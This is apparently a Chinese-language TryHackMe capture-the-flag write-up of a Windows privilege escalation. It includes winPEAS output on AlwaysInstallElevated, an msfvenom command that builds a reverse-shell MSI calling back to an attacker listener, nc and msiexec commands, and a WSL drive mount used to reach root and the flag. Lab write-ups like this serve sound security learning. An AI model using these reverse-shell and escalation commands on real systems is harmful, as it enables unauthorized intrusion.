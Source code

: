winPeas 上傳之後

```bash=
+----------¦ Checking AlwaysInstallElevated                                                 
+  https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/i
ndex.html#alwaysinstallelevated                                                                           
    AlwaysInstallElevated set to 1 in HKLM!                                                        
    AlwaysInstallElevated set to 1 in HKCU!  
```

發現 HKLM 跟 HCKU 都是 0x1 ，所以我們可以上傳 msi 的安裝檔試試看

製作安裝檔:

```bash=
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.17.9.114 LPORT=6969 -f msi -o exp.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: exp.msi
```

把環境架起來

![Screenshot 2025-07-29 at 9.48.43 AM](https://hackmd.io/_uploads/BycFusHPxe.png)

在 local 端監聽

```bash=
nc -lvnp 6969
```

然後在受害者那邊

```bash=
msiexec /quite /qn /i <filename>
```

結果就失敗了



回想起前面的流程，懷疑可以將 Windows 的 C 槽整個掛載到 Linux 上，參考這篇


https://www.scivision.dev/mount-usb-drives-windows-subsystem-for-linux/



```bash=
mount -t drvfs 'c:' /mnt/c
```

掛載完之後就可以 Get Root

![Screenshot 2025-07-29 at 10.37.52 AM](https://hackmd.io/_uploads/B1yG4hSvge.png)


> Get Root Flag: THM{evelated_w3as3l_l0ngest_boi}

## Pwned!


![Screenshot 2025-07-29 at 10.38.44 AM](https://hackmd.io/_uploads/H1zr43SDlx.png)
